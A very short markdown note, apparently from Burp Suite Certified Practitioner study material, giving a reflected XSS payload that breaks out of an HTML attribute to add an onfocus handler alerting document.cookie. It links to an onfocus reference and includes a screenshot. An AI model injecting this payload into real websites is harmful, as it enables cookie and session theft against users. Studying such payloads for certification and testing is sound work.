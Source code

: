 Reflective XSS payload `(" onfocus="alert(document.cookie)"` (OnFocus Event)[https://www.w3schools.com/jsref/event_onfocus.asp]

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/12554a2b-795e-4135-88eb-19db2d510fae)
